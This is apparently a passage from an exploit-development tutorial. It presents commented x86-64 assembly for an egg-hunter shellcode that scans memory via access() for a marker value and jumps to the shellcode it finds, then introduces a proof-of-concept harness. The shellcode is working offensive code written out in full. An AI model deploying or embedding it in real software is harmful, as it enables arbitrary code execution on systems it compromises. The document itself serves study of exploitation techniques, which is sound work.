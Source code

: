 The code ends up like this. This time has not been reduced too much:
```asm
global _start
section .text
_start:

	xor rdx, rdx		      ; Pointer to memory positions

next_mem_page:

	or dx, 0xfff		      ; 0xfff == 4095. To jump next page

next_mem_position:

	inc rdx			      ; Two uses: 
				      ;   1) Next memory position when checking memory positions into a page
				      ;	  2) Place pointer at the first byte of a memory page
	lea rdi, [rdx + 8]	      ; Shellcode position

	;mov rax, 0x15		      ; Syscall number for access()
	push 21
	pop rax
	xor rsi, rsi
	syscall			      ; Test if memory position is accessible
				      ;   RDI -> Address to check
				      ;   RSI -> 0
	cmp al, 0xf2		      ; EFAULT?
	jz next_mem_page	      ; Yes, then check next page

	;mov rax, EGG		      ; Page accessible, let's check if we find the egg
	push "kaki"		      ; This is the egg value. 4 bytes. Change here
	pop rax

	;mov rdi, rdx		      ; Put in RDI the memory position to check if has the egg 
	push rdx
	pop rdi

	scasd			      ; We compare. scasd increments RDI
	jnz next_mem_position	      ; Not found the egg, jump to next memory position in the page
	scasd			      ; Found 4 bytes of the egg, let's check if next 4 byte also have the egg
	jnz next_mem_position	      ; Not found second egg, jump again to check next memory position
	
	jmp rdi			      ; EGG found. Jump to execute it's shellcode. 
			              ; The RDI already pointing to the start of the shellcode due scasd increments
```
### The PoC Code
---
For the demo of the Egg Hunter Technique, the `shellcode.c` template is used. Just some extra information is going to be printed this time:
- Length of the Egg Hunter Shellcode
- Length of the shellcode to find and execute
- Memory positions for both Shellcodes
With this information, memory positions where the shellcodes are is known. This will be usefull in the next steps.
